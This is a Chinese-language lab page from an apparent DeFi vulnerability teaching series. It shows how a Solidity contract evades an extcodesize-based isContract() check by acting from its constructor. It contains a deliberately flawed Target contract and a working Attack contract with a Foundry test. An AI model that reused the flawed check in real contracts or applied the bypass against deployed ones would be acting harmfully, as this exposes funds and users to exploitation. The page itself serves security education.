

# 绕过isContract()验证 
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  
**名称：** 绕过isContract()验证  
**描述：**   
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  


**参考：**  
https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  


**Target合约：**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // 此方法依赖于extcodesize，它为构造函数中的合约返回0，因为代码仅在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// 测试攻击合约是否可以绕过目标合约检查的函数。
function testBypassContractCheck() public {
    // 在攻击之前记录Target合约的当前状态。 
    // 这通常会返回一个布尔值，指示合约是否已泄露。
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 创建攻击合约的新实例，并将Target合约的地址传递给该实例。
    // 这将启动对目标合约的攻击。
    AttackerContract = new Attack(address(TargetContract));

    // 攻击后再次记录目标合约的状态。
    // 如果攻击成功，则状态应与初始状态不同。
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 记录一条声明，表明漏洞攻击过程已完成。
    console.log("Exploit completed");
}


// 为攻击Target合约而创建的攻击合约。
contract Attack {
    // 公共布尔值，表示此合约本身是否是合约
    bool public isContract;

    // 公共地址变量，用于存储此合约的地址。
    address public addr;

    // 只在创建Attack合约时，触发一次的构造函数。
    // 它将Target合约的地址作为参数。
    constructor(address _target) {
        // 调用目标合约的isContract()函数，传递本合约的地址。
        // 这通常是Target合约中的安全检查，以查看调用方是否为合约。
        // 但是由于这个调用是在构造函数中进行的，isContract()中的extcodesize检查将返回false。
        isContract = Target(_target).isContract(address(this));

        // 将此合约的地址分配给addr变量。
        addr = address(this);

        // 调用Target合约的protected()函数，该函数可能拒绝合约调用。
        // 但是由于isContract()检查中的漏洞，此调用成功。
        Target(_target).protected();
    }
}
```  
**红框：**  
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  
